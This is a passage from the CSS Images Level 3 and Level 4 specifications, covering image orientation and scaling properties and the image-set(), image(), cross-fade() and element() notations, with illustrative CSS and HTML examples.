| [Computed value:](#css-cascade-6:computed) | the specified keyword, or an `<angle>`, rounded and normalized (see text), plus optionally a `flip` keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

**This property is *optional* for implementations.**

This property specifies an orthogonal rotation to be applied to the element’s images before they are used in the document. It applies to content images (e.g. replaced elements and generated content) and image sources referenced by SVG elements (such as `feImage`), as well as to decorative images applied via CSS rules (such as `background-image` and other `<image>` properties). It does not apply to the rendering of images outside the document, e.g. favicons in the UA’s navigation toolbars or menus, etc.

> **Note:** This property is not intended to specify layout transformations such as arbitrary rotation or flipping the image in the horizontal or vertical direction. (See [CSS-TRANSFORMS-1] for a feature designed to do that.) It is also not needed to correctly orient an image when printing in landscape versus portrait orientation, as that rotation is done as part of layout. (See [CSS3PAGE].) It should only be used to correct incorrectly-oriented images.

Values have the following meanings:

****none****

: No additional rotation is applied: the image is oriented as encoded.

****from-image****

: If the image has an orientation specified in its metadata, such as EXIF, this value computes to the angle that the metadata specifies is necessary to correctly orient the image. If necessary, this angle is then rounded and normalized as described above for an `<angle>` value. If there is no orientation specified in its metadata, this value computes to `none`.

  > **Note:** [§ 2.1.2 Image Metadata](#css-images-3:url-metadata) imposes some restrictions on what metadata can be used.

****`<angle>` || flip****

: Positive `<angle>` values cause the image to be rotated to the right (in a clockwise direction), while negative values cause a rotation to the left. If the <angle> is omitted, it defaults to `0deg`.

  If `flip` is specified, after rotation the image is flipped horizontally.

  This value only applies to content images; decorative images continue to behave as `from-image`. This value is deprecated and is optional for implementations except those conforming to [CSS-PRINT].

  > **Note:** This value allows all 8 possible EXIF orientations that `from-image` can produce to be manually reproduced.

  The computed value of the property is calculated by rounding the `<angle>` to the nearest quarter turn, rounding towards positive infinity when that’s ambiguous, then moduloing the value by `1turn` (so that it lies in the half-open range [`0turn`, `1turn`)).

Values other than `none` and `from-image` are *optional* to implement and *deprecated* in CSS.

All CSS layout and rendering processes use the image *after* rotation, exactly as if the image were originally encoded in its rotated form. This implies, for example:

- The natural height and width are derived from the rotated rather than the original image dimensions.
- The height (width) property applies to the vertical (horizontal) dimension of the image, *after* rotation.
- The hotspot coordinates of an image `cursor` are relative to the image after rotation.
- Border images (see `border-image`) are sliced after rotation.
- Other transformations, such as those in [CSS-TRANSFORMS-1], are applied to the image *after* `image-orientation` is applied.

> **Example:** The following example rotates the image 90 degrees clockwise:
>
> ```
> img.ninety     { image-orientation: 90deg }
> ...
> 
> ```
>
> The same effect could be achieved with, for example, an angle of -270deg or 450deg.

> **Note:** This property previously used `none` as its initial value. It is believed that using `from-image` as the initial value will produce a generally better user experience, and minimal breakage, but future compat data as UAs attempt to make the change will confirm that. If that is confirmed, then it is likely that this property will be removed from CSS unless use cases other than “correct for incorrect orientation” are raised for its other values.

#### 5.2. Determining How To Scale an Image: the `image-rendering` property {#css-images-3:the-image-rendering}

| Field | Value |
| --- | --- |
| Name: | **image-rendering** |
| [Value:](#css-values-4:value-defs) | auto \| smooth \| high-quality \| pixelated \| crisp-edges |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `image-rendering` property provides a hint to the user-agent about what aspects of an image are most important to preserve when the image is scaled, to aid the user-agent in the choice of an appropriate scaling algorithm. When specified on an element, it applies to all images given in properties for the element, such as background images, list-style images, or the content of replaced elements when they represent an image that must be scaled. The values of the `image-rendering` property are interpreted as follows:

****auto****

: The scaling algorithm is UA-dependent.

****smooth****

: The image should be scaled with an algorithm that maximizes the appearance of the image. In particular, scaling algorithms that "smooth" colors are acceptable, such as bilinear interpolation. This is intended for images such as photos.

****high-quality****

: Identical to `smooth`, but with a preference for higher-quality scaling. If system resources are constrained, images with `high-quality` should be prioritized over those with any other value, when considering which images to degrade the quality of and to what degree.

  > **Note:** This value *does not* prevent the image quality from being degraded when the system resources are constrained. It merely expresses a preference that these images should receive extra scaling resources relative to the `auto` images. If all images on the page have `high-quality` applied, it’s equivalent to all of them having `auto` applied—​they’re all treated the same.
  >
  > To get the most value out of `high-quality`, only apply it to the most important images on the page.

****pixelated****

: The image is scaled in a way that preserves the pixelation of the original as much as possible, but allows minor smoothing as necessary to avoid distorting the image when the target size is not a clean multiple of the original.

  For each axis independently, first determine the integer multiple of its natural size that puts it closest to the target size and is greater than zero. Scale it to this integer-multiple-size using nearest neighbor, then scale it the rest of the way to the target size as for `smooth`.

  > **Note:** At integer multiples of the natural size, this gives the same results as `crisp-edges`. At non-integer multiples, this usually gives better visual results, even for pixel art, but it does incur a performance penalty due to the "two-step" rendering requirement.

****crisp-edges****

: The image is scaled in a way that preserves contrast and edges, and which avoids smoothing colors or introducing blur to the image in the process. This is intended for images such as line drawings.

  The image *may* be scaled using nearest neighbor or any other UA-chosen algorithm that does not blur edges or blend colors from the source image. It can, however, detect diagonal or curved lines and render them as such (rather than as jagged-looking “giant pixels”).

  > **Note:** If the new size is not an integer multiple of the original size, the nearest neighbor algorithm can introduce significant “aliasing” bugs; lines that were the same thickness in the original image might be a pixel thinner or thicker in the scaled image depending on where they appear, etc. For most purposes, `pixelated` will produce a more suitable rendering than nearest neighbor.

Other than the first step of `pixelated`, this property does not dictate any particular scaling algorithm to be used. For example, with `image-rendering: auto`, a user agent could scale images with bilinear interpolation by default, switch to nearest-neighbor interpolation in high-load situations, and switch to a higher-quality scaling algorithm like Lanczos interpolation for static images that aren’t moving or changing.

> **Example:** For example, given the following small image:
>
> 
>
> A small pixel-art image.
>
> Scaling it up 3x might look like the following, depending on the value of `image-rendering`:
>
> 
>
> The image scaled 3x with `smooth`
>
> 
>
> The image scaled 3x with `pixelated`
>
> 
>
> The image scaled 3x with `crisp-edges` interpreted with an edge-preserving algorithm.   (Interpreting as nearest neighbor would give the same results as `pixelated` in this case.)

The **nearest neighbor** (or NN) image scaling algorithm treats the source image’s pixels as literal rectangles of color on the source canvas, then colors each destination pixel by choosing one point in the pixel’s area (usually either the center or top-left) and using the color of the corresponding point on the source canvas.

> **Note:** When the target size is an integer multiple of the source, this results in “big pixels”, as if you’d merely zoomed in on the source image. When the target size is a non-integer multiple, it still produces crisp pixels entirely out of source-image colors (no blending or blurring), but can produce aliasing quirks where the “pixel grid” can appear somewhat irregular.
>
> For example, using nearest neighbor to scale up an image by 2.5x will result in each pixel of the source image being used for two or three pixels of the destination image, in an alternating fashion, while scaling an image down to 0.5x will skip every second pixel in the source image.

> **Example:** At 3x scaling as in the preceding example, both `pixelated` and pure nearest neighbor give identical results. At scale ratios between integer multiples, however, they’ll act differently:
>
> 
>
> The same small pixel-art image as before
>
> 
>
> The image scaled 2.5x with `pixelated`
>
> 
>
> The image scaled 2.5x with `crisp-edges` interpreted as nearest neighbor
>
> The `pixelated` version maintains the overall *look* of simply scaling the pixels up, at the cost of *slight* blurring, though much less blurring than the `smooth` scaling gives. Meanwhile, nearest neighbor avoids introducing any blurring at all, at the cost of aliasing artifacts making the “pixels” look irregularly sized.

This property previously accepted the values `optimizeSpeed` and `optimizeQuality`. These are now deprecated; a user agent must accept them as valid values but must treat them as having the same behavior as `crisp-edges` and `smooth` respectively, and authors must not use them.

### 6. Interpolation {#css-images-3:interpolation}

Interpolation of `<image>` values is not defined in this level. Implementations must abruptly transition them (at 50% transition progress, like other unsupported interpolations), unless otherwise defined by a future specification.

> **Note:** CSS Images Level 4 is expected to define specialized interpolation for gradients, and define that all other images interpolate by cross-fading.

### 7. Serialization {#css-images-3:serialization}

This section describes the serialization of all new properties and value types introduced in this specification, for the purpose of interfacing with the CSS Object Model [CSSOM].

To serialize any function defined in this module, serialize it per its individual grammar, in the order its grammar is written in, omitting components when possible without changing the meaning, joining space-separated tokens with a single space, and following each serialized comma with a single space.

> **Example:** For example, a gradient specified as:
>
> ```
> Linear-Gradient( to bottom, red 0%,yellow,black 100px)
> ```
>
> must serialize as:
>
> ```
> linear-gradient(red, yellow, black 100px)
> ```

---

## CSS Images Module Level 4 {#css-images-4}

- **Shortname:** `css-images-4`
- **Editor's Draft:** [https://drafts.csswg.org/css-images-4/](https://drafts.csswg.org/css-images-4/)
- **Published TR:** [https://www.w3.org/TR/css-images-4/](https://www.w3.org/TR/css-images-4/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-11-03
- **Diff Specification Over:** [CSS Images Module Level 3 (`css-images-3`)](#css-images-3)

### 1. Introduction {#css-images-4:intro}

*This section is not normative.*

This module introduces additional ways of representing 2D images, for example as [a URL with color fallback](#css-images-4:image-notation), as [conic gradients](#css-images-4:conic-gradients), or as the [rendering of another element in the document](#css-images-4:element-notation).

#### 1.1. Value Definitions {#css-images-4:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2. 2D Image Values: the `<image>` type {#css-images-4:image-values}

The `<image>` value type denotes a 2D image. It can be a [url reference](#css-images-4:url-notation), [image notation](#css-images-4:image-notation), or [gradient notation](#css-images-4:gradients). Its syntax is:

```css
<image> = <url> | <image()> | <image-set()> | <cross-fade()> | <element()> | <gradient>
```

An `<image>` can be used in many CSS properties, including the `background-image`, `list-style-image`, `cursor` properties [CSS2] (where it replaces the `<url>` component in the property’s value).

In some cases an image is invalid, such as a `<url>` pointing to a resource that is not a valid image format or that has failed to load. An **invalid image** is rendered as a solid-color `transparent` image with no natural dimensions. However, invalid images can trigger error-handling clauses in some contexts. For example, an invalid image in `list-style-image` it is treated as `none`, allowing the `list-style-type` to render in its place. [CSS2]

While an image is loading, is a **loading image**. Loading images are *not* invalid images, but have similar behavior: they are rendered as a solid-color `transparent` image with no natural dimensions, and may trigger fallback rendering in contexts that offer it, but must not trigger loading of fallback resources. Alternately, if a loading image happens to be replacing an already-loaded image (for example due to changes in the document or style sheet) and the UA is tracking this information, it may continue to render the already-loaded image in place of the loading image.

Partially-loaded images (whose natural dimensions are known, but whose image data is not fully loaded) may be either treated as loading images or as loaded images rendered with partial data. For example, a UA may render an interlaced GIF in place as soon as its first pass of pixel data has loaded or even as soon as the image header (which contains sizing data) has parsed and refresh the rendering as more data loads; or it may wait until the entire image has loaded before using it.

A **computed `<image>`** value is the specified value with any `<url>`s, `<color>`s, and `<length>`s computed.

#### 2.1. Image File Formats {#css-images-4:image-file-formats}

At minimum, the UA must support the following image file formats when referenced from an `<image>` value, for all the properties in which using <image> is valid:

- PNG, as specified in [PNG]
- SVG, as specified in [SVG11], using the [secure static mode](https://www.w3.org/TR/svg-integration/#secure-static-mode) (See [SVG-INTEGRATION])
- If the UA supports animated `<image>`s, SVG, as specified in [SVG11], using the [secure animated mode](https://www.w3.org/TR/svg-integration/#secure-animated-mode) (See [SVG-INTEGRATION])

The UA may support other file formats as well.

#### 2.2. Image References: the `url()` notation {#css-images-4:url-notation}

> **Note:** No change from [css-images-3].

#### 2.3. Fetching External Images {#css-images-4:fetching-images}

To **fetch an external image for a stylesheet**, given a `<url>` *url* and a CSS declaration block *declaration*, fetch a style resource given *url*, with ruleOrDeclaration being *declaration*, destination "image", CORS mode "no-cors", and processResponse being the following steps given response *res* and null, failure or a byte stream *byteStream*: If *byteStream* is a byte stream, load the image from the byte stream.

#### 2.4. Resolution/Type Negotiation: the `image-set()` notation {#css-images-4:image-set-notation}

Delivering the most appropriate image resolution for a user’s device can be a difficult task. Ideally, images should be in the same resolution as the device they’re being viewed in, which can vary between users. However, other factors can factor into the decision of which image to send; for example, if the user is on a slow mobile connection, they may prefer to receive lower-res images rather than waiting for a large proper-res image to load. The **image-set()** function allows an author to ignore most of these issues, simply providing multiple resolutions of an image and letting the UA decide which is most appropriate in a given situation.

> **Issue:** This solution assumes that resolution is a proxy for filesize, and therefore doesn’t appropriately handle multi-resolution sets of vector images, or mixing vector images with raster ones (e.g. for icons). For example, use a vector for high-res, pixel-optimized bitmap for low-res, and same vector again for low-bandwidth (because it’s much smaller, even though it’s higher resolution).

The syntax for `image-set()` is:

```css
<image-set()> = image-set( <image-set-option># )
<image-set-option> = [ <image> | <string> ]
                     [ <resolution> || type(<string>) ]?
```

> **Issue:** We should add "w" and "h" dimensions as a possibility to match the functionality of HTML’s picture.

Each `<string>` inside `image-set()` represents a `<url>`.

The `image-set()` function can not be nested inside of itself, either directly or indirectly (as an argument to another `<image>` type).

Each `<image-set-option>` defines a possible image for the `image-set()` function to represent, composed of three parts:

- An image reference (required). This can be a URL, or a CSS generated image, such as a `linear-gradient()`.
- A `<resolution>` (optional). This is used to help the UA decide which `<image-set-option>` to choose. If the image reference is for a raster image, it also specifies the image’s natural resolution, overriding any other source of data that might supply a natural resolution.

  If not specified, it behaves as `1x` for the purpose of selecting which `<image-set-option>` to use. It also *defaults* the image’s natural resolution to `1x`, but if some other source of data supplies a natural resolution, that resolution must be honored instead.
- A **type( `<string>` )** function (optional), specifying the image’s MIME type in the `<string>`.

  If the `<string>`, when parsed as a valid MIME type string, is either not valid, or is valid but doesn’t specify a supported image format, the `<image-set-option>` does not define a valid option. (This has no effect on the validity of the `image-set()` function.)

  It does not have any effect on the image itself; an `<image-set-option>` like `url("picture.png") 1x type("image/jpeg")` is valid, and if chosen will display the linked PNG image, even though it was declared to be a JPEG.

  If not specified, it has no effect on the `<image-set-option>`.

An `image-set()` function contains a list of one or more `<image-set-option>`s, and must select only one of them to determine what image it will represent:

1. First, remove any `<image-set-option>`s from the list that specify an unknown or unsupported MIME type in their `type()` value.
2. Second, remove any `<image-set-option>`s from the list that have the same `<resolution>` as a previous option in the list.
3. If there are no `<image-set-option>` left at this point, the function represents an invalid image.
4. Finally, among the remaining `<image-set-option>`s, make a UA-specific choice of which to load, based on whatever criteria deemed relevant (such as the resolution of the display, connection speed, etc).
5. The `image-set()` function then represents the `<image>` of the chosen `<image-set-option>`.

UAs **may** change which `<image-set-option>` they wish to use for a given `image-set()` over the lifetime of the page, if the criteria used to determine which option to choose change significantly enough to make it worthwhile in the UA’s estimation.

> **Example:** This example shows how to use `image-set()` to provide an image in three versions: a "normal" version, a "high-res" version, and an extra-high resolution version for use in high-quality printing (as printers can have *extremely* high resolution):
>
> ```
> background-image: image-set( "foo.png" 1x,
>                              "foo-2x.png" 2x,
>                              "foo-print.png" 600dpi );
> ```

> **Example:** This example shows use of the `type()` function to serve multiple versions of the same image in both new, higher-quality formats, and older, more widely-supported formats:
>
> ```
> background-image: image-set( "foo.avif" type("image/avif"),
>                              "foo.jpg" type("image/jpeg") );
> ```
>
> Note that the AVIF image is given first; since both images have the same resolution (defaulting to `1x` since it’s unspecified), the JPEG image, coming second, is automatically dropped in UAs that support AVIF images.
>
> In older UAs, however, the AVIF image is ignored (because the UA knows it doesn’t support `"image/avif"` files), and so the JPEG is chosen instead.

> **Example:** Raster images can be mixed with vector images, or even CSS generated images.
>
> For example, in this code snippet a high-resolution image with subtle details is used on screens that can do it justice, while an ordinary CSS `linear-gradient()` is used instead for low-resolution situations:
>
> ```
> background-image: image-set( linear-gradient(cornflowerblue, white) 1x,
>                              url("detailed-gradient.png") 3x );
> ```

#### 2.5. Image Fallbacks and Annotations: the `image()` notation {#css-images-4:image-notation}

The `image()` function allows an author to easily generate a solid-color image from any color. Its syntax is:

```css
image() = image( <color> )
```

The `image()` function represents a solid-color image of the specified color with no natural dimensions.

> **Example:** For example, one can use this as a simple way to "tint" a background image, by overlaying a partially-transparent color over the top of the other image:
>
> ```css
> background-image: image(rgba(0, 0, 255, .5)), url("bg-image.png");
> ```
>
> This is equivalent to a single color stop gradient:
>
> ```css
> background-image: linear-gradient(rgba(0, 0, 255, .5)), url("bg-image.png");
> ```
>
> `background-color` does not work for this, as the solid color it generates always lies *beneath* all the background images.

> **Note:** This function previously defined a number of additional behaviors, but those have been shifted to [css-images-5].

#### 2.6. Combining images: the `cross-fade()` notation {#css-images-4:cross-fade-function}

When transitioning between images, CSS requires a way to explicitly refer to the intermediate image that is a combination of the start and end images. This is accomplished with the `cross-fade()` function, which indicates the two images to be combined and how far along in the transition the combination is.

> **Note:** Authors can also use the `cross-fade()` function for many simple image manipulations, such as tinting an image with a solid color or highlighting a particular area of the page by combining an image with a radial gradient.

The syntax for `cross-fade()` is defined as:

```css
cross-fade() = cross-fade( <cf-image># )
<cf-image> = [ <image> | <color> ] && <percentage [0,100]>?
```

The function represents an image generated by combining one or more images.

The `<percentage>` represents how much of each image is retained when it is blended with the other images. The <percentage> must be between `0%` and `100%` inclusive; any other value is invalid.

If any percentages are omitted, all the specified percentages are summed together and subtracted from `100%`, the result is floored at `0%`, then divided equally between all images with omitted percentages at computed-value time.

> **Note:** While this is not reflected in the computed value, when all the arguments’ percentages sum to greater than `100%`, the sizing/painting details effectively rescale them so that they sum to exactly `100%`.
>
> On the other hand, when the sum is less than `100%`, the sizing/painting details effectively act like there’s an additional `transparent` argument, with its percentage set to the remaining value necessary to make the sum equal `100%`.

If a `<color>` is provided, it represents a solid-color image with “automatic” dimensions (it doesn’t participate in the sizing of the result image at all; see details in the sizing details below).

##### 2.6.1. `cross-fade()` Sizing {#css-images-4:cross-fade-sizing}

The dimensions of the image represented by a `cross-fade()` are a weighted average of dimensions of the `<image>` arguments to the function; the `<color>` arguments have no effect. They are calculated as follows:

To determine the **natural dimensions of a cross-fade()**:

1. Normalize mix percentages from the function’s arguments, and let *args* and *leftover* be the result.
2. If *leftover* is 100%, return no natural dimensions.
3. Let *images* be an empty list.
4. For each `<cf-image>` *argument* of the function’s arguments:

  1. If *argument* is not an `<image>`, or is an <image> with no natural dimensions, continue.
  2. Let *item* be a tuple consisting of a width, a height, and a percentage.
  3. Run the object size negotiation algorithm for the `<image>`, as appropriate for the context in which the `cross-fade()` appears, and set *item*’s width and height to the width and height of the resulting concrete object size.
  4. Set *item*’s percentage to the *argument*’s percentage.
5. If *images* is empty, return no natural dimensions.
6. Return a natural width and natural height that are weighted averages of the width and height of each item in *images*, according to their corresponding percentages.

   > **Note:** The percentages might sum to a value less than 100%, so a naive weighted-averaging process might need to normalize them first.

##### 2.6.2. `cross-fade()` Painting {#css-images-4:cross-fade-painting}

The image represented by a `cross-fade()` is a weighted average of the input arguments to the function, calculated as follows:

To determine the **appearance of a cross-fade()**:

1. Normalize mix percentages from the function’s arguments, and let *args* and *leftover* be the result.
2. Let *images* be an empty list.
3. Let *size* be a tuple of width and height, initialized to the result of finding the concrete object size of the `cross-fade()` function (using the natural dimensions of a cross-fade()).
4. For each *argument* of the `cross-fade()` function:

  1. Let *item* be a tuple consisting of an image and a percentage.
  2. If *argument* has an `<image>`, rescale it to *size*’s width and height and set *item*’s image to the result. Otherwise, *argument* has a `<color>`; set *item*’s image to a solid-color image of the <color>, with *size*’s dimensions.
  3. Set *item*’s percentage to the *argument*’s percentage.
5. If *leftover* is greater than `0%`, append a tuple to *images* consisting of a solid-color transparent-black image with *size*’s dimensions, and a percentage equal to *leftover*.
6. Let *final image* be an image with *size*’s dimensions, and every pixel being the weighted linear average of the corresponding pixels of each *item*’s image in *images*, weighted according to the *item*’s percentage. (Average both the color channels and the alpha channel of the pixels.) For the purpose of this calculation, each pixel’s color must be in pre-multiplied sRGB.

   > **Note:** Details on the above operation
   >
   > This is applying an N-way Porter-Duff `dissolve` operation to the source images. Wikipedia defines `dissolve` as a stochastic operation, with the result pixels independently randomly chosen from the source images’ corresponding pixels according to their source images’ weights, but as pixels shrink to infinitely small, this converges to doing color-averaging in pre-multiplied color space.
   >
   > In particular, this means that `cross-fade(white 50%, transparent 50%)` will produce a partially-transparent solid white image. (Rather than a partially-transparent gray, which is what you’d get if you averaged the opaque white and transparent black pixels in non-premultiplied space.)
   >
   > As converting to pre-multiplied does entail some loss of precision, and graphics libraries may or may not support this operation natively, as per usual any method can be used so long as it achieves the specified effect.
   >
   > For example, one can instead rebalance the percentages according to the alphas of each pixel, then do the color-channel averages in non-premultiplied space. E.g., to render `cross-fade(rgb(255 0 0 / 1) 40%, rgb(0 255 0 / .5) 20%, rgb(0 0 255 / 0) 40%)`, rebalancing the percentages according to the 1 / .5 / 0 alphas would produce 40% / 10% / 0% (which renormalizes to 80% / 20% / 0%), at which point you can average the raw color channel values and end up with an `rgb(204 51 0 / .5)` image. (Note that the alpha channel is still averaged using the original percentages, not the rebalanced ones.)
7. Return *final image*.

##### 2.6.3. Simplifying Complex `cross-fade()` {#css-images-4:cross-fade-complex}

> **Issue:** Per WG resolution, define a notion of "equality" for images, and combine "same" images at computed-value time, summing their percentages.

> **Issue:** Per WG resolution, simplify directly-nested `cross-fade()` at computed-value time by just distributing the percentage and flattening; `cross-fade(A 10%, cross-fade(B 30%, C 70%) 90%)` becomes `cross-fade(A 10%, B 27%, C 63%)`.

#### 2.7. Using Elements as Images: the `element()` notation {#css-images-4:element-notation}

The `element()` function allows an author to use an element in the document as an image. As the referenced element changes appearance, the image changes as well. This can be used, for example, to create live previews of the next/previous slide in a slideshow, or to reference a canvas element for a fancy generated gradient or even an animated background.

> **Note:** The `element()` function only reproduces the *appearance* of the referenced element, not the actual content and its structure. Authors should only use this for decorative purposes, and must not use `element()` to reproduce an element with significant content across the page. Instead, just insert multiple copies of the element into the document.

The syntax for `element()` is:

```css
element() = element( <id-selector> )
```

where `<id-selector>` is an ID selector [SELECT].

> **Issue:** Do we need to be able to refer to elements in external documents (such as SVG paint servers)? Or is it enough to just use url() for this?

> **Issue:** This name conflicts with a somewhat similar function in GCPM. This needs to be resolved somehow.

> **Issue:** Want the ability to do "reflections" of an element, either as a background-image on the element or in a pseudo-element. This needs to be specially-handled to avoid triggering the cycle-detection.

> **Issue:** When we have overflow:paged, how can we address a single page in the view?

The `element()` function references the element matched by its argument. The ID is first looked up in the elementSources map, as described in that section. If it’s not found, it’s then matched against the document. If multiple elements are matched, the function references the first such element.

The image represented by the `element()` function can vary based on whether the element is visible in the document:

**an element that is rendered, is not a descendant of a replaced element, and generates a stacking context**

: The function represents an image with its natural size equal to the **decorated bounding box** of the referenced element:

  - for an element rendered using a CSS rendering model, the decorated bounding box is the smallest axis-aligned rectangle that contains the [border image areas](#css-backgrounds-4:border-image-area) of all the fragments of the principal box
  - for an element rendered using the SVG rendering model, [the decorated bounding box is defined by SVG](https://www.w3.org/TR/SVGTiny12/intro.html#TermDecoratedBoundingBox)

  > **Note:** Because images clip anything outside their bounds by default, this means that decorations that extend outside the decorated bounding box, like box shadows, may be clipped.

  The image is constructed by rendering the referenced element and its descendants (at the same size that they would be in the document) over an infinite `transparent` canvas, positioned so that the edges of the decorated bounding box are flush with the edges of the image.

  > **Issue:** Requiring some degree of stacking context on the element appears to be required for an efficient implementation. Do we need a full stacking context, or just a pseudo-stacking context? Should it need to be a stacking context normally, or can we just render it as a stacking context when rendering it to element()?

  If the referenced element has a transform applied to it or an ancestor, the transform must be ignored when rendering the element as an image. [CSS3-TRANSFORMS]

  If the referenced element is broken across pages, the element is displayed as if the page content areas were joined flush in the pagination direction, with pages' edges corresponding to the initial containing block’s start edge aligned. Elements broken across lines or columns are just rendered with their decorated bounding box.

  Implementations may either re-use existing bitmap data generated for the referenced element or regenerate the display of the element to maximize quality at the image’s size (for example, if the implementation detects that the referenced element is an SVG fragment); in the latter case, the layout of the referenced element in the image must not be changed by the regeneration process. That is, the image must look identical to the referenced element, modulo rasterization quality.

  > **Example:** As a somewhat silly example, a `p` element can be reused as a background elsewhere in the document:
  >
  > ```html
  > <style>
  > #src { color: white; background: lime; width: 300px; height: 40px; position: relative; }
  > #dst { color: black; background: element(#src); padding: 20px; margin: 20px 0; }
  > </style>
  > <p id='src'>I'm an ordinary element!</p>
  > <p id='dst'>I'm using the previous element as my background!</p>
  > ```
  >
  > 

**an element that is not rendered, but which provides a paint source**

: The function represents an image with the natural dimensions and appearance of the paint source. The host language defines the size and appearance of paint sources.

  > **Example:** For example, the `element()` function can reference an SVG `<pattern>` element in an HTML document:
  >
  > ```html
  > <!DOCTYPE html>
  > <svg>
  >   <defs>
  >     <pattern id='pattern1'>
  >       <path d='...'>
  >     </pattern>
  >   </defs>
  > </svg>
  > <p style="background: element(#pattern1)">
  >   I'm using the pattern as a background!
  >   If the pattern is changed or animated,
  >   my background will be updated too!
  > </p>
  > ```
  >
  > HTML also defines that a handful of elements, such as `canvas`, `img`, and `video`, provide a paint source. This means that CSS can, for example, reference a canvas that’s being drawn into, but not displayed in the page:
  >
  > ```html
  > <!DOCTYPE html>
  > <script>
  >   var canvas = document.querySelector('#animated-bullet');
  >   canvas.width = 20; canvas.height = 20;
  >   drawAnimation(canvas);
  > </script>
  > <canvas id='animated-bullet' style='display:none'></canvas>
  > <ul style="list-style-image: element(#animated-bullet);">
  >   <li>I'm using the canvas as a bullet!</li>
  >   <li>So am I!</li>
  >   <li>As the canvas is changed over time with Javascript,
  >       we'll all update our bullet image with it!</li>
  > </ul>
  > ```

**anything else**

: The function represents an invalid image.

  > **Example:** For example, all of the following `element()` uses will result in a transparent background:
  >
  > ```html
  > <!DOCTYPE html>
  > <p id='one' style="display:none; position: relative;">one</p>
  > <iframe src="http://example.com">
  >   <p id='two' style="position: relative;">I'm fallback content!</p>
  > </iframe>
  > <ul>
  >   <li style="background: element(#one);">
  >     A display:none element isn't rendered, and a P element
  >     doesn't provide a paint source.
  >   </li>
  >   <li style="background: element(#two);">
  >     The descendants of a replaced element like an IFRAME
  >     can't be used in element() either.
  >   </li>
  >   <li style="background: element(#three);">
  >     There's no element with an id of "three", so this also
  >     gets rendered as a transparent image.
  >   </li>
  > </ul>
  > ```

An element is **not rendered** if it does not have an associated box. This can happen, for example, if the element or an ancestor is `display:none`. Host languages may define additional ways in which an element can be considered not rendered; for example, in SVG, any descendant of a `<defs>` element is considered to be not rendered.

> **Example:** The `element()` function can be put to many uses. For example, it can be used to show a preview of the previous or next slide in a slideshow:
>
> ```html
> <!DOCTYPE html>
> <script>
> function navigateSlides() {
>   var currentSlide = ...;
>   document.querySelector('#prev-slide').id = '';
>   document.querySelector('#next-slide').id = '';
>   currentSlide.previousElementSibling.id = 'prev-slide';
>   currentSlide.nextElementSibling.id = 'next-slide';
> }
> </script>
> <style>
> .slide {
>   /* Need to be a stacking context to be element()-able. */
>   position: relative;
> }
> #prev-preview, #next-preview {
>   position: fixed;
>   ...
> }
> #prev-preview { background: element(#prev-slide); }
> #next-preview { background: element(#next-slide); }
> </style>
> <a id='prev-preview'>Previous Slide</a>
> <a id='next-preview'>Next Slide</a>
> <section class='slide'>...</section>
> <section class='slide current-slide'>...</section>
> ...
> ```
>
> In this example, the `navigateSlides` function updates the ids of the next and previous slides, which are then displayed in small floating boxes alongside the slides. Since you can’t interact with the slides through the `element()` function (it’s just an image), you could even use `click` handlers on the preview boxes to help navigate through the page.

##### 2.7.1.  Paint Sources {#css-images-4:paint-sources}

Host languages may define that some elements provide a **paint source**. Paint sources have an intrinsic appearance and can obtain a concrete object size without having to do layout or rendering, and so may be used as images even when they’re not rendered.

In HTML, the `img`, `video`, and `canvas` elements provide paint sources.

In SVG, any element that provides a [paint server](https://www.w3.org/TR/SVG/pservers.html) provides a paint source. Note: In SVG1.1, the `<linearGradient>`, `<radialGradient>`, and `<pattern>` elements provide paint sources. They are drawn as described in the spec, with the coordinate systems defined as follows:

**objectBoundingBox**

: The coordinate system has its origin at the top left corner of the rectangle defined by the concrete object size that it’s being drawn into, and the same width and height as the concrete object size. A single [user coordinate](https://www.w3.org/TR/SVG/coords.html#Units) is the width and height of the concrete object size.

**userSpaceOnUse**

: The coordinate system has its origin at the top left corner of the rectangle defined by the concrete object size that it’s being drawn into, and the same width and height as the concrete object size. [User coordinates](https://www.w3.org/TR/SVG/coords.html#Units) are sized equivalently to the CSS `px` unit.

> **Note:** It is expected that a future version of this module will define ways to refer to paint sources in external documents, or ones that are created solely by script and never inserted into a document at all.

##### 2.7.2.  Using Out-Of-Document Sources: the `ElementSources` interface {#css-images-4:elementsources}

The `element()` function normally selects elements within a document, but elements that provide a paint source don’t necessarily need to be in-document. For example, an HTML `canvas` element can be created, maintained, and drawn into entirely in script, with no need for it to be inserted into the document directly.

All that’s needed is a way to refer to the element, as an ID selector cannot select elements outside of the document. The elementSources Map object provides this.

```webidl
partial namespace CSS {
  [SameObject] readonly attribute any elementSources;
};
```

Any entries in the elementSources map with a string key and a value that is an object providing a paint source are made available to the `element()` function.

Whenever `element()` uses an `<id-selector>`, the ID’s value (without the leading `#` character) is first looked up in the elementSources map:

- If it’s found, and the object associated with it provides a paint source, the `element()` function represents that paint source.
- If it’s found, but the object associated with it *doesn’t* provide a paint source, the `element()` function represent an invalid image.
- If the ID isn’t found in the map at all, it’s then looked for in the document as normal.

> **Issue:** This reuse of the ID selector matches Moz behavior. I’m trying to avoid slapping a `<custom-ident>` right in the beginning of the grammar, as that eats too much syntax-space. Another possibility, though, is to start the value with a language-defined keyword *followed by* a <custom-ident>, like `element(external fancy)` or something. Naming suggestions welcome.

> **Example:** For example, fancy animating backgrounds can be done with an external canvas:
>
> ```html
> <script>
> var bg = document.createElement('canvas');
> bg.height = 200;
> bg.width = 1000;
> drawFancyBackground(bg);
> CSS.elementSources.set('fancy', bg);
> </script>
> <style>
> h1 {
>   background-image: element(#fancy);
> }
> </style>
> ```
>
> As the "fancy" canvas is drawn into and animated, the backgrounds of all the H1 elements will automatically update in tandem.
>
